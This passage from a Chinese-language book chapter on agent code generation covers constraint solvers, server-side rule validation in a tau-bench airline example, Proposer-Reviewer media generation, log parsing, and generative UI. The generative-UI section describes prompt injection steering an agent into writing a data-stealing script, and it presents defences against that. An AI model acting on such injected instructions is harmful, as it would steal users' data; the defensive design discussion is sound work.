> **實驗目標**：評估 Agent 透過約束求解程式碼輔助邏輯思考的能力。
>
> **技術方案**：為 Agent 配備包含 python-constraint 庫的 Code Interpreter。Agent 將邏輯謎題（如騎士與無賴問題）轉化為形式化約束定義：識別所有變數（每個島民身份）、約束條件（「騎士說真話」 等推導），定義約束並呼叫求解器搜尋滿足所有約束的解。
>
> **驗收標準**：使用 [K&K Puzzle 資料集](https://huggingface.co/datasets/K-and-K/perturbed-knights-and-knaves) 評測，程式碼輔助模式求解準確率達 90% 以上，顯著高於純思考模式。
>

這個實驗還揭示了一個更普遍的規律：模型與鷹架（harness）之間是此消彼長的關係。模型足夠強時，鷹架可以更薄——模型自己就能把邏輯想對，程式碼求解器帶來的增益隨之收窄；模型不夠強時，就得在鷹架裡做更多事情——把關鍵的邏輯推理交給程式碼和約束求解器來兜住正確性。正因如此，本實驗刻意選用能力較弱的模型來放大這一對照：在較弱的模型上，純思考模式會頻繁算錯，程式碼輔助能把準確率顯著拉高；而換成足夠強的推理模型，純思考往往就能解出全部謎題，程式碼輔助的增益便收斂到接近零。所以鷹架該做多厚，取決於你手上模型的能力邊界——這也是評估一項 Agent 技術時容易被忽視的前提：同一套鷹架，配上不同能力的模型，得到的結論可能截然不同。

### 程式碼作為業務規則的約束

這一節是對前面 Harness 工程的直接回應。Harness 的核心原則之一是「約束：編碼化而非文件化」——將規則從自然語言文件轉化為可執行的程式碼，使其成為系統行為的強制約束而非建議性指南。程式碼生成使 Agent 能夠自主完成這個轉化過程。

業務規則、辦事流程、決策邏輯如果僅用自然語言描述，往往充滿歧義。什麼是「合理的退款請求」？什麼算「緊急情況」？這些概念的邊界在自然語言中很難界定——「購買後 7 天內可退款」看似清楚，但「7 天」是自然日還是工作日？「購買」是下單時間還是發貨時間？相比之下，程式碼提供了無歧義的、可執行的知識表達方式——要麼成功執行，要麼丟擲錯誤，不存在模稜兩可。

**精確表達複雜業務規則。**

**自然語言規則 vs 程式碼化規則：互補而非替代**

將規則寫在系統提示詞中的優勢：模型可基於規則向使用者**解釋政策**；可根據規則**尋找變通方案**（如 「改簽而非取消」）；可在呼叫工具前初步判斷可行。

將規則程式碼化為校驗工具的優勢：程式碼邏輯的**精確性和無歧義性**——不會出現 「理解偏差」；程式碼執行的**確定性**——相同輸入必產生相同輸出；特別適合**複雜規則組合**——多條件布林組合、時間計算、跨資料來源驗證。

實踐中應結合使用：系統提示詞包含自然語言規則供理解和溝通，關鍵決策點配備程式碼化校驗工具作為「守門員」確保合規性。

程式碼化規則的真正價值不在於最佳化 token 效率，而在於**防止不可逆的錯誤操作**——取消訂單、轉出資金、刪除資料，這些操作一旦執行就無法撤銷。程式碼化校驗在操作前設定最後一道防線，這種安全保障的價值遠超其實現成本。

**合併校驗與執行：checklist 引導思考，真值校驗守門**

與其設計獨立校驗工具，不如讓執行工具內部先校驗。以 τ-bench（tau-bench，一個模擬航空、電商客服場景，專門評測 Agent 工具呼叫與政策遵守能力的基準測試）中的航空公司取消政策為例：

```python
def cancel_reservation(
    reservation_id: str,
    cancellation_reason: str,        # "change_of_plan", "airline_cancelled", "other"
    expected_cabin_class: str = None,    # 可選：模型自查用，服務端以資料庫真值複核
    expected_has_insurance: bool = None  # 可選：模型自查用，同上
) -> dict:
    """
    取消航班預訂。

    取消政策（服務端根據資料庫真值強制執行）：
    - 規則 1: 已使用任何航段的訂單不可取消
    - 規則 2: 預訂後 24 小時內可無條件取消
    - 規則 3: 航空公司取消的航班總可取消
    - 規則 4: 商務艙總可取消
    - 規則 5: 基礎經濟艙和經濟艙需購買旅行保險才可取消

    呼叫前請先查詢訂單詳情，逐條核對上述政策；expected_* 引數用於
    陳述你的判斷依據，僅供服務端比對與審計，不影響政策裁決。
    """
    # 所有政策事實一律從資料庫讀取，絕不採信模型自報的值
    r = db.get_reservation(reservation_id)
    now = server_clock.now()  # 服務端時鐘，而非模型提供

    # 模型自報值與真值不一致時記錄告警，用於發現模型的錯誤認知或潛在注入
    if expected_cabin_class is not None and expected_cabin_class != r.cabin_class:
        log_mismatch(reservation_id, "cabin_class", expected_cabin_class, r.cabin_class)
    if expected_has_insurance is not None and expected_has_insurance != r.has_insurance:
        log_mismatch(reservation_id, "has_insurance", expected_has_insurance, r.has_insurance)

    if r.any_segment_used:
        return {"success": False, "reason": "Cannot cancel with used segments"}

    hours_since_booking = (now - r.booking_time).total_seconds() / 3600
    if hours_since_booking <= 24:
        execute_cancellation(reservation_id)
        return {"success": True, "reason": "Cancelled within 24-hour window"}

    if r.flight_status == "cancelled_by_airline":
        execute_cancellation(reservation_id)
        return {"success": True, "reason": "Airline cancelled flight"}

    if r.cabin_class == "business":
        execute_cancellation(reservation_id)
        return {"success": True, "reason": "Business class cancellation"}

    if r.cabin_class in ["basic_economy", "economy"]:
        if r.has_insurance:
            execute_cancellation(reservation_id)
            return {"success": True, "reason": f"{r.cabin_class} with insurance"}
        return {"success": False, "reason": f"{r.cabin_class} requires insurance"}

    return {"success": False, "reason": "Does not meet cancellation policy"}
```

這個設計的價值要分兩層來看。

**第一層：引數作為思考的 checklist**。工具描述中列出了完整的取消政策，並要求模型「呼叫前先查詢訂單詳情、逐條核對」；可選的 `expected_*` 引數進一步促使模型把自己的判斷依據顯式寫出來。為了填好這些引數，模型必須先呼叫查詢工具獲取訂單詳情，逐一確認每個條件——填寫引數的過程本質上是一個**強制性 checklist**。當模型查到艙位是經濟艙且未購保險時，很可能在準備呼叫的過程中就注意到規則 5，從而**根本不會發起呼叫**，而是直接告訴使用者「經濟艙未購保險無法取消，可考慮購買保險後再取消或改簽」。這一層的價值在於引導思考、減少無效呼叫；但它不承擔安全責任——`expected_*` 引數只是模型的自我陳述，服務端從不把它當作事實。

**第二層：服務端真值校驗才是守門員**。注意程式碼中的關鍵設計：艙位等級、保險狀態、預訂時間、航段使用情況、航班狀態，全部由服務端查詢資料庫獲得；當前時間來自服務端時鐘。**沒有任何一條政策事實來自模型自報的引數**。這不是多餘的謹慎：模型可能產生幻覺，也可能被提示注入操縱——正如前文「致命三要素」所分析的，同一上下文中的 Agent 難以自證清白。如果把 `cabin_class`、`has_insurance` 乃至 `current_time` 設計成由模型填寫的引數，模型只要報錯（或被誘導報錯）一個值，「守門員」就形同虛設。最後一道防線必須建立在模型無法偽造的資料之上——這與前文「關鍵操作需要獨立驗證」的立場一脈相承：獨立性不僅指獨立的模型，更指獨立的資料來源。

三重保障由此完整：(1) 系統提示詞的自然語言規則幫助理解和解釋；(2) 工具描述與引數設計作為 checklist，引導模型在呼叫前顯式核對條件；(3) 服務端基於資料庫真值的程式碼化校驗作為最後守門員。前兩重減少錯誤的發生，第三重確保錯誤不會變成不可逆的損失。

> **實驗 5-3 ★★：小模型透過程式碼化知識提升執行規則的準確性**
>
> **實驗目標**：驗證小引數量模型（Qwen3-4B）透過程式碼化業務規則顯著提升複雜政策執行的準確性和一致性。
>
> **技術方案**：基於 τ-bench 航空客服場景設計對照實驗。**控制組**：純自然語言規則，依賴模型自身思考。**實驗組**：三重保障——系統提示詞保留自然語言規則；工具描述列出完整政策，並以可選的 `expected_*` 引數引導模型呼叫前逐條核對（checklist）；工具內部基於模擬資料庫真值的程式碼化校驗（政策事實一律查庫獲取、時間取服務端時鐘，不採信模型自報引數）。評測指標：任務成功率、政策違規次數、無效工具呼叫次數、使用者體驗。
>
> **預期結果**：實驗組顯著優於控制組。觀察到模型在準備引數時就自主識別違規操作，直接向使用者提議替代方案，驗證「引數作為 checklist」的有效性；同時統計 `expected_*` 自報值與資料庫真值不一致的比例，驗證「服務端真值校驗」攔截錯誤認知的必要。
>
### 程式碼驅動的多媒體生成

許多複雜文件的創作本質上是結構化資料的組織和呈現。無論是簡報、技術報告還是互動式應用，底層都由程式碼定義——HTML 描述結構，CSS 控制樣式，JavaScript 實現互動。傳統的文件創作依賴 GUI 介面的所見即所得編輯，但對 Agent 來說既不直觀也不高效，因為 GUI 操作需要視覺理解和精確的座標定位。透過程式碼生成，Agent 繞開了視覺定位難題，獲得對文件的精確控制能力——每個元素的位置、樣式、內容都是明確定義的，可以用程式化的方式修改和最佳化。

**PPT 生成 Agent。**

PPT 創作往往耗時費力。一個典型的學術報告 PPT 可能包含數十頁投影片，每頁都需精心設計佈局、提煉要點、選配圖表。如果將 PPT 創作重新框定為程式碼生成問題，就能極大簡化複雜度。現代 PPT 框架（如 Slidev）採用優雅的設計哲學：用 Markdown 和 HTML 定義演示內容。建立一頁投影片只需編寫簡潔的標記語言，框架自動處理渲染、佈局、動畫。對掌握了程式碼生成能力的 Agent 極其友好。




僅能生成程式碼還不夠。**Agent 編寫完程式碼後並不知道實際渲染效果**：內容是否太擠、文字是否溢位、圖片尺寸是否合適，這些只有真正渲染出來才能發現。因此需要引入**提議者～稽核者**（Proposer-Reviewer）機制（如圖 5-5 所示），將程式碼編寫和質量評審解耦為兩個獨立 Agent：

- **Proposer Agent** 負責生成 Slidev 程式碼，理解內容邏輯結構並分解為合理頁面
- **Reviewer Agent** 執行程式碼將每頁渲染為圖片，用 Vision LLM（能「看」懂圖片的多模態大模型）從內容密度、可讀性、佈局合理性、視覺美感等維度分析渲染結果，生成**結構化的改進建議**——不是模糊的「不好看」，而是具體可執行的指導（如「第 3 頁：內容過多，建議拆分」、「第 7 頁：程式碼塊字型過小，建議增大到 14pt」），包含頁碼、問題型別、嚴重程度等欄位

Proposer 接收回饋後理解意圖並修改程式碼，新版本再次提交 Reviewer 審查，迭代直到質量達標或達到最大次數（如 5 輪）。「質量達標」與「最大輪數」正是 Loop 工程要求的兩類顯式終止條件：前者由稽核者判定目標達成，後者用預算上限防止迴圈失控。

本章的提議者～稽核者迭代迴圈與第四章的**事前審批**應用同源——都是提議者～稽核者正規化的例項：生成與審查分離、雙模型獨立評估（用 Loop 工程的語言說，就是「製造者」與「驗證者」分離的子 Agent）。差異在目標與形態：第四章將其用於不可逆操作的安全審查，稽核者對單次操作給出批准或否決；本章將其用於內容質量的迭代改進——多輪迴圈，且稽核者接觸到提議者看不到的新資訊（渲染結果）。核心設計原則一脈相承（共享目標約束、使用不同模型家族降低同類錯誤機率、回饋作為特殊事件加入 Proposer 軌跡）。採用雙 Agent 分工而非單 Agent 迴圈的**核心優勢在於上下文管理**：Reviewer 每次只處理最新版本的渲染圖片，不受歷史版本干擾；Proposer 僅累積結構化文字回饋，token 消耗少且更易於推理。單 Agent 方案則需要在同一上下文中累積數十頁渲染圖片的多輪迭代，上下文迅速超限。這一機制將在後續的影片編輯和日誌視覺化實驗中重複使用；第十章將進一步探討提議者～稽核者之外的其他多 Agent 協作模式。

> **實驗 5-4 ★★：基於論文的 PPT 自動生成**
>
> **實驗目標**：從學術論文自動生成高質量簡報，驗證提議者～稽核者機制在內容創作質量控制中的有效性。
>
> **技術方案**：使用 Slidev 框架。Proposer Agent 閱讀論文 PDF，提取章節結構、核心論點和圖表，規劃 PPT 結構，逐頁生成 Slidev 程式碼。**關鍵步驟**：Reviewer Agent 渲染每頁截圖，用 Vision LLM 檢查渲染效果，識別文字溢位、內容擁擠、圖片尺寸不當等問題，生成結構化改進建議。迭代直到效果達標。
>
> **驗收標準**：生成 10-20 頁 PPT，覆蓋論文主要貢獻。至少 3 處原圖表且與文字說明匹配。渲染無文字溢位、佈局合理。對比單 Agent 自我審查 vs 提議者～稽核者分工在上下文消耗和生成質量方面的差異。
>

> **實驗 5-5 ★★：論文講解影片的自動生成**
>
> **實驗目標**：擴充套件 PPT 生成能力，結合視覺和聽覺通道實現影片講解自動生成。
>
> **技術方案**：基於實驗 5-4 的 PPT 生成流程，Agent 同時生成每頁的口語化講解文字（引導性敘述而非複述），呼叫 TTS（文字轉語音）合成語音，用 ffmpeg 將 PPT 截圖與音訊同步合成影片。
>
> **驗收標準**：影片 5-15 分鐘，每頁展示時間與語音時長精確匹配，講解內容與視覺元素呼應。
>
>
> 
>
>

**影片編輯 Agent。**

用通用 Computer Use 做影片編輯面臨根本挑戰：影片剪輯軟體 GUI 極其複雜，包含大量時間軸、圖層、效果面板，Agent 需要精確定位這些介面元素並透過滑鼠鍵盤操作編輯，精確輸出座標非常困難。

把影片編輯重構為 API 呼叫和程式碼生成問題則大幅降低了複雜度。許多專業軟體（如 Blender——開源的 3D 創作與影片合成工具，支援 Python 指令碼控制；FFmpeg——音影片處理領域的命令列瑞士軍刀）提供了程式化 API 介面，以結構化、可組合的方式暴露核心功能。例如 Blender Python API 允許透過程式碼精確控制影片片段的匯入、裁剪、排列、過渡效果、音訊混合等操作，每個操作對應一個清晰的函式呼叫。對 Agent 而言，將自然語言需求轉化為 API 呼叫，遠比理解 GUI 介面並模擬滑鼠點選容易得多。與 PPT 生成類似，影片編輯同樣採用提議者～稽核者機制——Proposer Agent 生成 Blender 指令碼，Reviewer Agent 渲染關鍵幀並用 Vision LLM 檢查效果，回饋修改建議。

> **實驗 5-6 ★★：基於 API 的智慧影片剪輯**
>
> **實驗目標**：驗證 Agent 透過生成 Blender Python API 程式碼實現影片編輯的能力，評估基於視覺回饋的提議者～稽核者機制在多媒體內容處理中的作用。
>
> **核心挑戰**：理解使用者的自然語言編輯需求並轉化為精確的 API 呼叫序列，處理多種編輯操作（剪輯、合併、字幕、音軌混合、視覺效果），確保生成的 Python 指令碼正確執行。Proposer Agent 編寫程式碼後無法直接判斷影片效果，必須透過 Reviewer Agent 渲染並利用 Vision LLM 檢查關鍵幀。
>
> **技術方案**：使用者提供影片素材（如包含衝浪、徒步、滑雪等場景的原始素材）並以自然語言描述需求（如 「把衝浪部分剪出來」）。Proposer Agent 透過影片分析子 Agent 採用**兩步定位策略**：
>
> **第一步，粗粒度定位**：呼叫子 Agent 傳入影片路徑、每 10 秒截圖間隔、目標問題。子 Agent 用 ffmpeg 擷取關鍵幀，將所有截圖連同問題輸入 Vision LLM，返回場景區間（如 「衝浪在第 40-110 秒」）。
>
> **第二步，精細粒度定位**：以更窄範圍、每秒截圖密度再次呼叫子 Agent，精確定位邊界時間點。
>
> 將影片分析封裝為子 Agent 避免大量截圖佔用主 Agent 上下文。定位後生成 Blender API 指令碼。Reviewer Agent 執行快速預覽，檢查關鍵幀並回饋修改建議，迭代直到達標再完整渲染。
>
> **驗收標準**：Agent 能準確識別影片中不同場景，根據自然語言指令正確生成剪輯指令碼。起始和結束點位置準確（誤差不超過 3 秒）。如指令包含特效要求（慢動作、轉場、字幕），生成的影片正確應用效果。Reviewer Agent 能偵測明顯錯誤（遺漏關鍵內容、包含無關片段）並觸發修正。最終輸出影片檔案格式正確、畫質符合預期。
>
### 程式碼作為系統介面卡

前幾節的程式碼大多產出「面向人」的東西——報告、投影片、介面。這一節的程式碼指向另一個方向：**連線機器與機器**。真實系統裡，Agent 要打交道的外部服務常常沒有現成 SDK，介面也未必規範——文件缺失、返回格式非標準、欄位隨版本漂移。面對這種情況，Agent 不必等人預先寫好適配層，而是當場讀介面文件、或直接觀察一兩條真實響應，即時生成適配程式碼：構造 HTTP 用戶端、拼裝鑑權頭、解析非標準的返回結構、把上游的資料模型翻譯成下游能消費的形狀。程式碼在這裡成了連線任意系統的「萬能膠」——哪裡接不上，就現場生成一段膠水補上，這正是元能力「系統介面」方向的核心。下面要展開的日誌適應性解析，是這一能力在可觀測性場景下的具體化：面對不斷演化的日誌格式，Agent 同樣靠現場生成解析程式碼來適配。

這種「萬能膠」還能延伸到**完全沒有 API 的系統**：當外部系統只暴露圖形介面時，Agent 可以先透過 Computer Use（第九章將詳細介紹）操作介面，再把成功完成的操作序列用程式碼固化為 RPA 工具——未來執行相同任務時直接執行程式碼，以極高的速度和穩定性完成操作，無需再呼叫昂貴的視覺思考。可以說，RPA 是「系統介面卡」在無介面系統上的極端形態；這種「工作流錄製與固化」機制將在第八章展開。

資料處理是軟體系統中最常見但也最令人頭疼的任務之一。根源在於資料格式的多樣性和不斷變化。同一系統在演化過程中可能多次修改資料格式——新增新欄位、改變巢狀結構、引入新型別。為每種格式手寫解析程式碼，維護成本極高，每次格式修改都需要更新解析邏輯、測試相容性、部署新版本。

程式碼生成提供了一種全新思路：讓 Agent 在遇到新格式時基於樣本資料臨時生成解析程式碼，系統自動適應資料格式的演化，無需人工干預。

**Agent 日誌解析和視覺化。**

Agent 系統的可觀測性依賴於對執行流程的視覺化。一個複雜的 Agent 任務可能包含數百步操作，涉及多次 LLM 呼叫、數十個工具執行、多個子 Agent 互動。視覺化這些資料面臨多重挑戰：不同工具返回不同結構的資料，格式隨系統迭代不斷演化；一個完整軌跡可能包含數十萬字元，需要在概覽和細節之間找到平衡。

程式碼生成提供了一種優雅的解決方案：建立一個自動修復的回饋迴圈。當前端遇到無法解析的日誌格式時，不是顯示錯誤，而是自動將失敗資訊（原始日誌樣本、詳細報錯）報告給 Agent。Agent 分析樣本資料結構，生成能正確解析的前端程式碼。程式碼先在虛擬瀏覽器中自動測試（驗證解析正確性，用 Vision LLM 檢查視覺化效果），透過後熱更新到前端系統。

> **實驗 5-7 ★★★：適應性的日誌解析系統**
>
> **實驗目標**：建構能自我進化的 Agent 日誌視覺化系統。
>
> **技術方案**：初始系統僅支援基本格式。前端偵測解析失敗→報告 Agent→生成解析程式碼→虛擬瀏覽器測試→熱更新部署。全流程自動化。
>
> **驗收標準**：自動偵測失敗並觸發學習，生成程式碼透過自動測試，熱更新後正確解析新格式。
>

**Agent 執行日誌自動分析和問題診斷。**

生產環境的 Agent 會產生大量軌跡日誌（trajectory，記錄每次任務的完整過程）。然而從日誌中識別問題、定位根因、建構測試用例是一項高成本的工作。問題定位困難，因為任務失敗可能由多個模組的協同錯誤導致；重現成本高，因為生產環境的複雜性難以在測試環境中模擬；已修復的問題容易反覆出現，因為缺乏系統化的迴歸測試。

程式碼生成為診斷提供了自動化路徑。Agent 可以讀取生產日誌，結合架構文件和 PRD（產品需求文件）自動判斷執行流程是否符合預期，定位出問題的環節和模組。基於分析結果生成結構化問題報告（優先順序、模組、描述、改進建議）和迴歸測試用例——測試用例引用問題軌跡 ID 和關鍵互動輪次，測試框架自動重放來驗證修復後的系統在相同輸入下能否產生正確行為。最後 Agent 透過 MCP 對接 GitHub 建立 Issue 並分配給相關開發者，完成從問題發現到任務分派的全自動化。

> **實驗 5-8 ★★★：生產日誌的智慧診斷系統**
>
> **實驗目標**：從生產軌跡中自動發現問題、生成測試用例、建立工作項。
>
> **技術方案**：Agent 讀取生產環境的軌跡集合，結合系統架構文件和 PRD 分析：識別問題模式，定位涉及的模組。生成結構化問題報告（優先順序、模組、描述、改進建議）。自動生成迴歸測試用例（引用軌跡 ID 和互動輪次，由測試框架自動重放驗證）。透過 MCP 對接 GitHub 自動建立 Issue。
>
>
> 
>
>
### 程式碼作為生成式 UI

傳統 Agent 系統主要依賴純文字對話與使用者互動。然而文字作為線性、單一的互動方式，在很多場景下效率低下。需要收集結構化資訊時，反覆問答讓對話變得冗長；需要呈現複雜資料關係時，純文字的表達力有限；需要讓使用者在多個選項中選擇時，文字列表遠不如視覺化介面直觀。

程式碼生成為突破這些限制提供了可能：Agent 可以動態生成表單、互動式圖表甚至完整的 Web 應用，將靜態文字對話升級為豐富的多模態互動。這種由 Agent 動態生成介面的模式被稱為**生成式 UI**（Generative UI）。

**A2UI 類協定：生成式 UI 的標準化。**

當 Agent 直接生成 HTML 和 JavaScript 程式碼作為 UI 時，存在一個根本性的安全問題：生成的程式碼可能包含惡意內容。例如，如果有人在輸入中故意藏了一段指令，Agent 可能被提示注入操縱、不知不覺地生成一段會偷偷竊取使用者資料的指令碼。這裡要釐清因果：成因是**提示注入**（惡意指令混進了 Agent 的輸入），而最終在瀏覽器裡執行惡意指令碼、竊取資料的**效果**則類似傳統 Web 的 XSS（Cross-Site Scripting，跨站指令碼攻擊）——不能把整個攻擊直接叫作 XSS。以 A2UI（Agent-to-User Interface）為代表的宣告式介面協定提供了一種更安全的方向：Agent 不直接生成可執行的程式碼，而是隻輸出一份「介面描述清單」（JSON 格式），比如「請顯示一個包含 3 行 2 列的表格，標題是「銷售資料」」。用戶端收到這份清單後，用自己準備好的安全元件來渲染介面。這就像餐廳的選單：顧客（Agent）只能點選單上有的菜（預定義的元件），而不能走進廚房自己做（執行任意程式碼）。這裡要釐清一個常見混淆：AG-UI（Agent-User Interaction，CopilotKit 提出）雖然名字相近，卻並不是一種介面描述語言，而是配套的**事件/傳輸協議**，負責把 Agent 的執行狀態（訊息、工具呼叫、狀態補丁）流式推送到前端，它本身甚至可以承載 A2UI 這樣的介面載荷。因此二者互補而非同類，不應並列為同一種「宣告式介面協定」。

這類協定的核心設計原則是**安全優先**：用戶端維護一個受信任的元件目錄（如 Card、Button、TextField、Table），Agent 只能請求渲染目錄中已有的元件，無法注入任意程式碼。用戶端用自己的原生元件渲染，而不是執行 Agent 生成的任意 HTML。這類協定通常還會支援**跨平臺**（同一份描述在 React、Flutter、原生應用中渲染）和**增量生成**（流式 JSONL 格式，邊接收邊渲染）。

當然，宣告式方法適用於標準化的互動場景（表單、表格、卡片），而對於高度定製化的需求（如自訂視覺化、遊戲介面），直接生成程式碼仍然是更靈活的選擇。下面展示兩種模式的具體應用。

**用 HTML 交付成果：取代 Markdown 彙報。** 生成式 UI 不只用在互動過程中，也正在改變 Agent 最終**交付成果**的形態。傳統上，Agent 幹完一項任務後往往產出一份 Markdown 彙報文件；但一頁頁翻讀線性排布的 Markdown 其實並不好讀。隨著 Agent 生成前端程式碼的能力越來越強，越來越多的實踐改為讓它直接產出 HTML。相比 Markdown，HTML 交付件有幾個明顯的優勢。其一是**互動式演示**：可以用可操作的形式直接演示系統是如何執行的，使用者往往一看就懂，勝過大段文字描述。其二是**更好的資料視覺化**：用圖表而非表格來呈現資料，還能建構互動式元件，讓使用者自行瀏覽、篩選、下鑽到自己關心的細節。其三是**可持續完善的交付件**：HTML 網站不必是任務結束時才拋棄式產出的死物，而可以在工作推進的過程中，由 Agent 不斷補充和完善。

以筆者自己寫論文的經歷為例：每個研究專案筆者都會維護一個互動式網站[^ch5-4]，它既是最終的交付件，更是研究過程中的一份活文件——筆者會讓 Agent 隨著實驗的推進持續更新它。這個網站至少承擔三類作用。其一是**實驗資料追溯**：每一次實驗的具體資料、所用的 prompt 以及 LLM 的原始回覆，都能在網站上逐條檢視；把這些攤開來，反而更容易發現資料構造、資料格式、資料分佈上的問題，也更容易看出 LLM 的回覆和 judge 的打分是否存在系統性偏差。其二是**訓練指標監控**：把訓練過程中的各條曲線直接列在網頁上，方便隨時確認模型的**內科指標**是否健康。這裡借用醫學裡「內科」的說法——內科指標指的是反映訓練過程本身是否正常的內部訊號，例如訓練損失與驗證損失、梯度範數、學習率、模型輸出 token 時的困惑度（perplexity，衡量模型對自己生成內容的「把握」程度），以及強化學習中的獎勵、KL 散度、策略熵等。它們不同於任務準確率那類最終的結果指標：正如體檢時的各項生理指標之於一個人的外在表現，內科指標往往能更早地暴露出損失不收斂、梯度爆炸、訓練崩潰等問題。其三是**執行原理展示**：用視覺化的方式把整個系統的執行原理呈現出來，讓人一眼就能看清這個由 AI 搭起來的系統到底是什麼結構。

[^ch5-4]: 筆者的研究專案網站見 https://01.me/research/ ，其中每個專案都配有一個持續更新的互動式網站。

**澄清使用者意圖。**

當使用者需求表達模糊或不完整時，Agent 需要透過澄清問題來收集必要資訊。OpenAI Deep Research 等產品通常採用文字問答方式，但這存在明顯侷限：效率上，每個問題需要一輪對話，十個澄清點就需要十輪互動；表達力上，某些問題之間存在依賴關係（比如「選擇旅行目的地」會影響「交通方式」的可選項），純文字難以表達這種級聯關係。

透過程式碼生成，Agent 可以建立結構化的互動介面來替代文字問答。圖 5-8 展示了動態表單生成流程，說明 Agent 如何把澄清問題轉化為拋棄式填寫的結構化介面。Agent 生成包含各種輸入控制元件的 HTML 表單——文字框收集開放性資訊、下拉選單讓使用者在預定義選項中選擇、核取方塊允許多選、日期選擇器簡化時間輸入。更進一步，Agent 可以生成級聯表單——透過 JavaScript 實現動態邏輯：選擇某選項後自動顯示或隱藏後續問題，動態更新可選項。使用者一次填寫完整個表單，無需多輪對話，還能清晰看到所有需填寫的資訊和問題之間的邏輯關係。




> **實驗 5-9 ★★：動態表單生成的意圖澄清系統**
>
> **實驗目標**：驗證 Agent 透過動態生成 HTML 表單澄清使用者意圖的能力。
>
> **技術方案**：Agent 分析使用者請求，識別澄清點，生成含級聯邏輯的表單程式碼。前端渲染，使用者一次提交，Agent 解析 JSON 資料繼續任務。
>
> **驗收標準**：使用者輸入 「我想訂一張去北京的機票」，Agent 生成表單包含：出發城市（文字輸入）、出發日期（日期選擇器）、旅行型別（單選：單程/往返）、返程日期（僅選擇 「往返」 時顯示）。使用者一次提交完成所有資訊。
>

**生成 SQL 查詢。**

